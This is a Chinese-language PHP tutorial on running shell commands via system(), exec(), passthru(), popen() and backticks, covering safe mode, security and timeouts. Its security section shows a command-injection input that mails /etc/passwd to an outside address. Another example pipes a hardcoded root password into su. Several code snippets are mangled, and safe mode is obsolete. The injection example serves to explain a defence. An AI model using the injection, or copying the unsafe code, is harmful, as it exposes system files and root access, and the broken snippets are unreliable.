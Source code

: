 ## PHP exec system passthru系统函数
### 目录

- [PHP exec system passthru系统函数](#php-exec-system-passthru系统函数)
    - [目录](#目录)
        - [区别:](#区别)
        - [是否可以?](#是否可以)
        - [前提条件](#前提条件)
        - [如何做?](#如何做)
        - [1) 用PHP提供的专门函数](#1-用php提供的专门函数)
        - [2) 用popen()函数打开进程](#2-用popen函数打开进程)
        - [3) 用反撇号(`，也就是键盘上ESC键下面的那个，和~在同一个上面)](#3-用反撇号也就是键盘上esc键下面的那个和在同一个上面)
        - [要考虑些什么?](#要考虑些什么)



> 详细的介绍了关于PHP exec system passthru系统函数用法与安全以及其它应用功能，有需要的朋友参考一下。区别:system() 输出并返回最后一行shell结果。exec() 不输出结果，返回最后一行shell结果，所有结果详细的介绍了关于PHP exec system passthru系统函数用法与安全以及其它应用功能，有需要的朋友参考一下。

#### 区别： ####

system() 输出并返回最后一行shell结果。

exec() 不输出结果，返回最后一行shell结果，所有结果可以保存到一个返回的数组里面。

passthru() 只调用命令，把命令的运行结果原样地直接输出到标准输出设备上。

相同点：都可以获得命令执行的状态码


    demo:
    //system('dir');
    // exec ('dir');
    // passthru ('dir');
    // echo `dir`;
PHP作为一种服务器端的脚本语言，象编写简单，或者是复杂的动态网页这样的任务，它完全能够胜任。但事情不总是如此，有时为了实现某个功能，必须借助于操作系统的外部程序(或者称之为命令)，这样可以做到事半功倍。

那么，是否可以在PHP脚本中调用外部命令呢?如果能，如何去做呢?有些什么方面的顾虑呢?相信你看了本文后，肯定能够回答这些问题了。

#### 是否可以? ####

答案是肯定的。PHP和其它的程序设计语言一样，完全可以在程序内调用外部命令，并且是很简单的：只要用一个或几个函数即可。

#### 前提条件 ####

由于PHP基本是用于WEB程序开发的，所以安全性成了人们考虑的一个重要方面。于是PHP的设计者们给PHP加了一个门：安全模式。如果运行在安全模式下，那么PHP脚本中将受到如下四个方面的限制：

> 执行外部命令
> 
> 在打开文件时有些限制
> 
> 连接MySQL数据库
> 
> 基于HTTP的认证

在 安全模式下，只有在特定目录中的外部程序才可以被执行，对其它程序的调用将被拒绝。这个目录可以在php.ini文件中用 safe_mode_exec_dir指令，或在编译PHP是加上--with-exec-dir选项来指定，默认是 /usr/local/php/bin。

如果你调用一个应该可以输出结果的外部命令(意思是PHP脚本没有错误)，得到的却是一片空白，那么很可能你的网管已经把PHP运行在安全模式下了。

#### 如何做? ####

在PHP中调用外部命令，可以用如下三种方法来实现：

#### 1) 用PHP提供的专门函数 ####

PHP提供共了3个专门的执行外部命令的函数：system()，exec()，passthru()。

system()

原型：string system (string command [, int return_var])

system()函数很其它语言中的差不多，它执行给定的命令，输出和返回结果。第二个参数是可选的，用来得到命令执行后的状态码。

例子：

    <?php
	system("/usr/local/bin/webalizer/webalizer");  
    exec()
原型：string exec (string command [, string array [, int return_var]])

exec()函数与system()类似，也执行给定的命令，但不输出结果，而是返回结果的最后一行。虽然它只返回命令结果的最后一行，但用第二个参数array 可以得到完整的结果，方法是把结果逐行追加到array的结尾处。所以如果array不是空的，在调用之前最好用unset()最它清掉。只有指定了第二 个参数时，才可以用第三个参数，用来取得命令执行的状态码。

例子：
    <?php
    exec("/bin/ls -l");
    exec("/bin/ls -l", $res);
    exec("/bin/ls -l", $res, $rc);
	passthru()
原型：void passthru (string command [, int return_var])

passthru ()只调用命令，不返回任何结果，但把命令的运行结果原样地直接输出到标准输出设备上。所以**passthru()**函数经常用来调用象pbmplus (Unix下的一个处理图片的工具，输出二进制的原始图片的流)这样的程序。同样它也可以得到命令执行的状态码。

例子：

    header("Content-type: image/gif");
    passthru("./ppmtogif hunte.ppm");
    ?>
#### 2) 用popen()函数打开进程 ####

上面的方法只能简单地执行命令，却不能与命令交互。但有些时候必须向命令输入一些东西，如在增加Linux的系统用户时，要调用su来把当前用户换到root才行，而su命令必须要在命令行上输入root的密码。这种情况下，用上面提到的方法显然是不行的。

popen()函数打开一个进程管道来执行给定的命令，返回一个文件句柄。既然返回的是一个文件句柄，那么就可以对它读和写了。在PHP3中，对这种句柄只能做单一 的操作模式，要么写，要么读;从PHP4开始，可以同时读和写了。除非这个句柄是以一种模式(读或写)打开的，否则必须调用pclose()函数来关闭 它。

例子1：

    $fp=popen("/bin/ls -l", "r");
    ?>
例子2(本例来自PHP中国联盟网站http://www.phpx.com/show.php?d=col&i=51)：

    /* PHP中如何增加一个系统用户
    下面是一段例程，增加一个名字为james的用户,
    root密码是 verygood。仅供参考
    */
    $sucommand = "su --login root --command";
    $useradd = "useradd ";
    $rootpasswd = "verygood";
    $user = "james";
    $user_add = sprintf("%s "%s %s"",$sucommand,$useradd,$user);
    $fp = @popen($user_add,"w");
    @fputs($fp,$rootpasswd);
    @pclose($fp);
    ?>
#### 3) 用反撇号(`，也就是键盘上ESC键下面的那个，和~在同一个上面) ####

这个方法以前没有归入PHP的文档，是作为一个秘技存在的。方法很简单，用两个反撇号把要执行的命令括起来作为一个表达式，这个表达式的值就是命令执行的结果。如：

    $res='/bin/ls -l';
    echo '
    '.$res.'
    ';
    ?>
这个脚本的输出就象：

    hunte.gif
    hunte.ppm
    jpg.htm
    jpg.jpg
    passthru.php
#### 要考虑些什么? ####

**要考虑两个问题：安全性和超时。**

先看**安全性**。比如，你有一家小型的网上商店，所以可以出售的产品列表放在一个文件中。你编写了一个有表单的HTML文件，让你的用户输入他们的EMAIL地 址，然后把这个产品列表发给他们。假设你没有使用PHP的mail()函数(或者从未听说过)，你就调用Linux/Unix系统的mail程序来发送这 个文件。程序就象这样：

    <?php
    system("mail $to < products.txt");
    echo "我们的产品目录已经发送到你的信箱：$to";
    
用这段代码，一般的用户不会产生什么危险，但实际上存在着非常大的安全漏洞。如果有个恶意的用户输入了这样一个EMAIL地址：

    '--bla ; mail someone@domain.com < /etc/passwd ;'
那么这条命令最终变成：

    'mail --bla ; mail someone@domain.com < /etc/passwd ; < products.txt'
我相信，无论哪个网络管理人员见到这样的命令，都会吓出一身冷汗来。

幸好，PHP为我们提供了两个函数：**EscapeShellCmd**()**和EscapeShellArg**()。**函数EscapeShellCmd把一个字符串** 中所有可能瞒过Shell而去执行另外一个命令的字符转义。这些字符在Shell中是有特殊含义的，象分号()，重定向(>)和从文件读入 (<)等。函数EscapeShellArg是用来处理命令的参数的。它在给定的字符串两边加上单引号，并把字符串中的单引号转义，这样这个字符串 就可以安全地作为命令的参数。

再来看看超时问题。如果要执行的命令要花费很长的时间，那么应该把这个命令放到系统的后台去运 行。但在默认情况下，**象system**()等函数要等到这个命令运行完才返回(实际上是要等命令的输出结果)，这肯定会引起PHP脚本的超时。解决的办法是 把命令的输出重定向到另外一个文件或流中，如：

    <?php
	system("/usr/local/bin/order_proc > /tmp/null &");

----
@tsingchan    